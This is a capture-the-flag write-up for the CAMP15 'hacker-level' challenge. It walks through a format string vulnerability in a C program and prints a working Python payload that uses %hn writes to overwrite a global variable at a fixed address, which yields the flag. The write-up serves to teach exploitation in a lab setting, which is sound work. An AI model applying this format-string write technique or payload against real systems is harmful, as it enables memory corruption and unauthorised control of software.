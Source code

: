### Solved by barrebas

Easy 200 points. We're given a binary and the source. We need to supply a name that will be processed into an integer. The resulting integer should be `0xCCC31337`. If you look at the function:

```c
static uint32_t level = 0;

...

static void calc_level(const char *name) {
    for (const char *p = name; *p; p++) {
        level *= 257;
        level ^= *p;
    }
    level %= 0xcafe;
}
```

Finally, the value for `level` is modulo'd with `0xcafe`. This means that `level` can *never* be the required value `0xCCC31337`. We'll need to co-opt another section of code to pass the check. This quickly came to mind:

```c
    printf("What's your name? ");
    fgets(name, sizeof name, stdin);

    calc_level(name);

    usleep(150000);
    printf("Hello, ");
    printf(name);
```

Excellent. We have a format string vulnerability. After hex-editing the binary to get rid of the `usleep()` calls, I bruteforced the location of our format string on the stack (starts at position 7). Next, the disassembly of `hacker-level` shows us where `level` is at in memory:


```
 8048620:   cmp    DWORD PTR ds:0x804a04c,0xccc31337
```

All I needed to do was to write the correct format string. I came up with:

```python
import struct
def p(x):
    return struct.pack('<L', x)

payload = ""
payload += p(0x804a04c)
payload += p(0x804a04e)
payload += "%4911c%7$hn%47500c%8$hn"

print payload
```

Running this against the remote binary gave `The flag is: CAMP15_337deec05ccc63b1168ba3379ae4d65854132604`. Done!

